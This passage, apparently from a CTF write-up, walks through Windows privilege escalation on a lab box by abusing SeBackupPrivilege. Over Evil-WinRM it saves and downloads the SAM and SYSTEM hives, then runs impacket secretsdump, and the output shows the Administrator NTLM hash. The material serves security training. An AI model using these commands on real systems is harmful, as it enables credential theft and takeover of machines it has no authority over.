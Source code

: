 <details><summary><b>🏳️user.txt</b></summary></details>


## 💀 Priviliege Escalation

Let's try to check the privilege of the current user <code>svc_backup</code>:
```
*Evil-WinRM* PS C:\Users\svc_backup\Desktop> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State
============================= ============================== =======
SeMachineAccountPrivilege     Add workstations to domain     Enabled
SeBackupPrivilege             Back up files and directories  Enabled
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Enabled
```

We know that the current user <code>svc_backup</code> has the <code>SeBackupPrivilege</code> enabled. This means that we have the access to any file. However, we do not have the direct read access as user <code>Administrator</code> yet. We can try to dump the <code>SAM</code> and <code>SYSTEM</code> to get the some information. Retrieve the files first:
```
*Evil-WinRM* PS C:\Users\svc_backup\Documents> reg save HKLM\SAM C:\Users\svc_backup\Documents\sam.hive
The operation completed successfully.

*Evil-WinRM* PS C:\Users\svc_backup\Documents> reg save HKLM\SYSTEM C:\Users\svc_backup\Documents\system.hive
The operation completed successfully.

*Evil-WinRM* PS C:\Users\svc_backup\Documents> download sam.hive
                                        
Info: Downloading C:\Users\svc_backup\Documents\sam.hive to sam.hive
                                        
Info: Download successful!
*Evil-WinRM* PS C:\Users\svc_backup\Documents> download system.hive
                                        
Info: Downloading C:\Users\svc_backup\Documents\system.hive to system.hive
                                        
Info: Download successful!
```

Now, we can try to dump the hash inside the <code>SAM + SYSTEM</code> file locally:
```
┌──(kali㉿kali)-[/mnt/…/2025/3108CTF/Boot2Root/Kapal Bocor]
└─$ python3 /opt/impacket/examples/secretsdump.py -sam sam.hive -system system.hive LOCAL
Impacket v0.13.0.dev0+20250808.170117.00f43cf7 - Copyright Fortra, LLC and its affiliated companies 

[*] Target system bootKey: 0xd6e0355499ccd00a0ce39c1212a7805f
[*] Dumping local SAM hashes (uid:rid:lmhash:nthash)
Administrator:500:aad3b435b51404eeaad3b435b51404ee:dd7a157c6ffe3072305e9eb326ae37d5:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
[*] Cleaning up... 
```
